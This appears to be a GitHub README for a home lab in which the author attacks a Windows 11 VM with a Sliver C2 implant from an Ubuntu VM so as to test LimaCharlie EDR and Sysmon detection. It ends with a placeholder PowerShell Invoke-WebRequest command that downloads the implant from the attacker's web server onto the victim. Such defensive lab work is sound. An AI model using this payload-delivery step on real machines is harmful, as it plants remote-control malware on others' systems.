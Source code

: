 # LimaCharlie-EDR-Lab
![Architecture](https://i.imgur.com/6mftsEk.jpg)

## Introduction

I simulated a real-life cyber attack scenario and tested the effectiveness of my security measures. I created two virtual machines on a NatNetwork: an Ubuntu Server acting as the attacker, and a Windows 11 machine as the victim.

To enhance the security of the victim machine, I installed LimaCharlie sensor and Sysmon, which helped me detect any potential attacks or security events. On the Ubuntu Server, I installed Silver C2, a command and control attack tool for Windows machines.

To test my security measures, I executed the C2 attack and created detection rules to alert administrators of any suspicious activity. This lab project aimed to demonstrate the importance of having robust security measures in place to protect against cyber attacks.


The architecture of the project consists of the following components:

- Virtual Box NatNetwork
- Virtual Machines (1 windows, 1 linux)
- LimaCharlieEDR
- Silver C2 Server

After environment is set up I created a implant on the Ubuntu server to install on to the Windows System
![Implant](https://i.imgur.com/LEP0qSk.png)

Next I created quick websever on the Ubuntu machine for the C2 Payload to be installed from, then I ran this command on the Windows device.
![IWR](https://i.imgur.com/dadsDeX.png)

IWR -Uri http://[IpAddress]/[ImplantName] -Outfile [FileLocation]

